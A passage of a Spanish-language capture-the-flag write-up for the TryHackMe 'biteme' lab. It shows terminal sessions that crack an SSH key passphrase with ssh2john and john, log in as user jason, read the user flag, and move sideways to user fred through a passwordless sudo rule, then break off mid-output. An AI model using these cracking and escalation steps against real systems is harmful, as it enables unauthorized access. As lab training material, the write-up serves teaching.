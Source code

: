       Vamos a intentar crakear la id_rsa para conseguir la clave

        ┌──(root㉿kali)-[/home/…/ctf/try_ctf/biteme/content]
        └─# ssh2john id_rsa > john_idrsa  

        ┌──(root㉿kali)-[/home/…/ctf/try_ctf/biteme/content]
        └─# john john_idrsa --wordlist=/usr/share/wordlists/rockyou.txt
        Using default input encoding: UTF-8
        Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
        No password hashes left to crack (see FAQ)
                                                                                                                                                            
        ┌──(root㉿kali)-[/home/…/ctf/try_ctf/biteme/content]
        └─# john john_idrsa --show                                     
        id_rsa:1a2b3c4d --------------------------> clave obtenida.
        
        1 password hash cracked, 0 left

-Nos conectamos por ssh utilizando la id_rsa y la pass obtenida

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/biteme/content]
    └─# ssh jason@10.10.191.13 -i id_rsa                           
    Enter passphrase for key 'id_rsa': 
    Last login: Fri Mar  4 18:22:12 2022 from 10.0.2.2
    jason@biteme:~$ 


## Postexplotacion, obtencion de flags y elevacion de privilegios.

-Obtenemos la flag de usuario

    jason@biteme:~$ cat user.txt 
    THM{6fbf1.....abba70c33070}


-Listamos los permisos que tenemos sobre los comandos que podemos ejecutar con privilegios elevados en el sistema.

  Como vemos podemos ejecutar comandos sin necesidad de clave como el usuario fred

    jason@biteme:~$ sudo -l
    Matching Defaults entries for jason on biteme:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User jason may run the following commands on biteme:
        (ALL : ALL) ALL
        (fred) NOPASSWD: ALL


-Escalamos hozintalmente hacia el usuario fred, listamos los permisos que tenemos sobre los comandos que podemos ejecutar con privilegios elevados en el sistema.

    jason@biteme:~$ sudo -u fred /bin/bash

    
    fred@biteme:~$ sudo -l
    Matching Defaults entries for fred on biteme:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    